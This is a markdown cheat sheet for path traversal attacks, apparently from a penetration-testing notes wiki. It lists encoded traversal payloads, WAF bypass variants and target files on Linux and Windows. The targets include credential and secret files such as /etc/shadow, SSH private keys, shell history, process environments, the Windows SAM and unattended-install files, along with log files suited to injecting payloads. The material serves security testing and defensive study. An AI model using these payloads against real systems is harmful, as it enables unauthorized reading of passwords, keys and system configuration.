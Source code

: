 ```yaml
---
icon: slash-forward
---
```


# Path Traversal

## Basic Payloads

```javascript
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

## Bypasses

```bash
# If WAF removing "../"
..././
...\.\
..;/

# Double URL encoding
. = %252e
/ = %252f
\ = %255c
```

## Interesting Files

### Linux

Interesting files:

*   Operating System and Informations

    ```
    /etc/issue
    /etc/group
    /etc/hosts
    /etc/motd
    ```
*   Processes

    ```
    /proc/[0-9]*/fd/[0-9]*   # first number is the PID, second is the filedescriptor
    /proc/self/environ
    /proc/version
    /proc/cmdline
    /proc/sched_debug
    /proc/mounts
    ```
*   Network

    ```
    /proc/net/arp
    /proc/net/route
    /proc/net/tcp
    /proc/net/udp
    ```
*   Current Path

    ```
    /proc/self/cwd/index.php
    /proc/self/cwd/main.py
    ```
*   Indexing

    ```
    /var/lib/mlocate/mlocate.db
    /var/lib/plocate/plocate.db
    /var/lib/mlocate.db
    ```
*   Credentials and history

    ```
    /etc/passwd
    /etc/shadow
    /home/$USER/.bash_history
    /home/$USER/.ssh/id_rsa
    /etc/mysql/my.cnf
    ```
*   Possible payload injectable files:\


    ```
    /var/log/apache/access.log
    /var/log/apache/error.log
    /var/log/httpd/error_log
    /usr/local/apache/log/error_log
    /usr/local/apache2/log/error_log
    /var/log/nginx/access.log
    /var/log/nginx/error.log
    /var/log/vsftpd.log
    /var/log/sshd.log
    /var/log/mail
    ```

### Windows

Interesting files:

```bash
# Always existing files in recent Windows
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
C:\Windows\win.ini

c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)\
